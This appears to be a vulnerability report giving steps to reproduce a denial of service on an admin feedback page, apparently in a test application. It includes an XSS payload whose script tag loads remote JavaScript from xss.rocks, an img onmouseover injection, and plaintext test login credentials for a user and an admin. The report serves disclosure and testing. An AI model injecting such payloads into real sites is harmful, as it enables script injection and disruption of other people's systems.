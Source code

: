 ![DoS-for-admin-on-feedback-path](Evidence/DoS-for-admin-on-feedback-path.png)

#### Steps to Reproduce
To reproduce the vulnerability, one has to perform the following steps.

1. Log in to the application as a regular user using valid credentials. 
    - email: test1@silverskin.fi
    - password: Test123!

2. Once logged in , navigate to the `feedback` page. Submit feedback with normal content.

3. Use Burp Suite to intercept the HTTP request containing the feedback submission. 

4. In the intercepted request, modify the feedback content with the following payload.
    ```json
    {
        "message":<SCRIPT/XSS SRC='http://xss.rocks/xss.js'></SCRIPT>,
        "browserDataJSON":"{\"vendorSub\":\"\\\"\\\"\",\"productSub\":\"\\\"20030107\\\"\",\"vendor\":\"\\\"Google Inc.\\\"\",\"maxTouchPoints\":\"10\",\"scheduling\":\"{}\",\"userActivation\":\"{}\",\"doNotTrack\":\"null\",\"geolocation\":\"{}\",\"connection\":\"{}\",\"plugins\":\"{\\\"0\\\":{\\\"0\\\":{}},\\\"1\\\":{\\\"0\\\":{}}}\",\"mimeTypes\":\"{\\\"0\\\":{},\\\"1\\\":{}}\",\"pdfViewerEnabled\":\"true\",\"webkitTemporaryStorage\":\"{}\",\"webkitPersistentStorage\":\"{}\",\"windowControlsOverlay\":\"{}\",\"hardwareConcurrency\":\"8\",\"cookieEnabled\":\"true\",\"appCodeName\":\"\\\"Mozilla\\\"\",\"appName\":\"\\\"Netscape\\\"\",\"appVersion\":\"\\\"5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36\\\"\",\"platform\":\"\\\"Win32\\\"\",\"product\":\"\\\"Gecko\\\"\",\"userAgent\":\"\\\"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36\\\"\",\"language\":\"\\\"en-US\\\"\",\"languages\":\"[\\\"en-US\\\"]\",\"onLine\":\"true\",\"webdriver\":\"false\",\"ink\":\"{}\",\"mediaCapabilities\":\"{}\",\"mediaSession\":\"{}\",\"permissions\":\"{<IMG SRC=# onmouseover=\"alert('xxs')\">}\"}"
    }
    ```

5. Forward the modified request ot the server.

6. The server responds with a 500 Internal Server Error, indicating a possible vulnerability due to improper handling of the payload.

7. Navigate back to the web app and log in with admin credentials:
    - email: test3@silverskin.fi
    - password: I4m4admin----

8. As an admin, navigate to the feedback page.

9. The admin interface throws an Unhandled Rejection (syntax error), caused by the modified feedback content, disrupting the feedback display functionality.
